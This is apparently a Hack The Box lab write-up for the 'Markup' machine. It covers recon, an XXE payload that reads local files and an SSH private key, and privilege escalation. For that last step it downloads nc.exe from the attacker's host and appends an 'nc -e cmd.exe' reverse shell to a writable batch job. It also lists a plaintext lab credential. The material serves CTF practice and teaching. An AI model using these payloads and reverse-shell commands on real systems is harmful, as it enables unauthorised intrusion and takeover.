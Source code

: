 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

![alt text](./img/markup.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.49 -e tun0 --rate=1000  
![alt text](./img/markup01.PNG?raw=true)  

nmap -A 10.10.10.49 -p 22,80,443  
![alt text](./img/markup02.PNG?raw=true)  

dirsearch -u http://10.10.10.49 -w ~/wordlists/common.txt -t 100 --full-url  
![alt text](./img/markup03.PNG?raw=true)  

Using the credentials founded in the INCLUDED machine we can login to the webpage -> daniel:>SNDv*2wzLWf  
![alt text](./img/markup04.PNG?raw=true)  

## Exploit  
Let’s click on the ORDER item  
![alt text](./img/markup05.PNG?raw=true)  

Checking the source code of the page we found an user….  
![alt text](./img/markup06.PNG?raw=true)  

Let’s try to do some XSS in this form  
![alt text](./img/markup07.PNG?raw=true)  
  
![alt text](./img/markup08.PNG?raw=true)  

Hummmm loadXML? Maybe the application is vulnerable to XXE.  
To test this let's start burpsuite, capture the order request and send to repeater  
![alt text](./img/markup09.PNG?raw=true)  

Now we inject an XXE payload to test the XXE vuln  
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM 'file:///c:/windows/win.ini'> ]>  
![alt text](./img/markup10.PNG?raw=true)  

Send the request and check the response  
![alt text](./img/markup11.PNG?raw=true)  
  
SUCCESS!!!

Ok, with nmap we found that port 22 is open. Maybe there is some id_rsa file on the target. One target that we found is Daniel’s, so let’s start with him  
![alt text](./img/markup12.PNG?raw=true)  
  
Touche!

Now copy the id_rsa to a file in your machine  
![alt text](./img/markup13.PNG?raw=true)  
  
OBS.: Don’t forget to let one empty line in the end of the file because of the format of id_rsa key

Now we can connect to the target with ssh  
ssh daniel@10.10.10.49 -i id_rsa_daniel  
![alt text](./img/markup14.PNG?raw=true)  
  
HABEMUS SHELL \o/

Go to the desktop folder and get the flag  
![alt text](./img/markup15.PNG?raw=true)  

## Privesc  
Let’s check our privileges  
![alt text](./img/markup16.PNG?raw=true)  

Nothing REALLY isefull, let’s see what services are running  and the OS  
![alt text](./img/markup17.PNG?raw=true)  

Sad. So let’s do it old school. Mapping the system manually  
On the C:\ folder we found some interesting things  
![alt text](./img/markup18.PNG?raw=true)  

Here we have XAMPP and LOg-MANAGEMENT that can be interesting. Let’s start with LOG folder  
![alt text](./img/markup20.PNG?raw=true)  
  
Analysing the file we see that he need to be executed as Administrator.  

Now let’s check this file permissions:
icacls job.bat  
![alt text](./img/markup21.PNG?raw=true)  

Looks like all local users has control of the file (BUILDIN\Users). So we can edit it, this means that we can use it to privesc.

For this let’s upload a copy of nc to the machine. Start an web server (Example: sudo python3 -m http.server 80) in your machine and use the next commands on target machine:
curl http://YOUR_IP/nc.exe -o c:\users\daniel\desktop\nc-eldruin.exe
echo c:\users\daniel\desktop\nc-eldruin.exe -e cmd.exe YOUR_IP YOUR_PORT >> c:\Log-Management\job.bat
type c:\Log-Management\job.bat  
![alt text](./img/markup22.PNG?raw=true)  

Start an nc listener in your machine and wait receive asn reverse shell  
![alt text](./img/markup23.PNG?raw=true)  

## Discoveries  
Look’s like these files are not useful in the next machines, but is good to practice enumeration 

![alt text](./img/markup19.PNG?raw=true)  
  
![alt text](./img/markup24.PNG?raw=true)  
  
![alt text](./img/markup25.PNG?raw=true)  

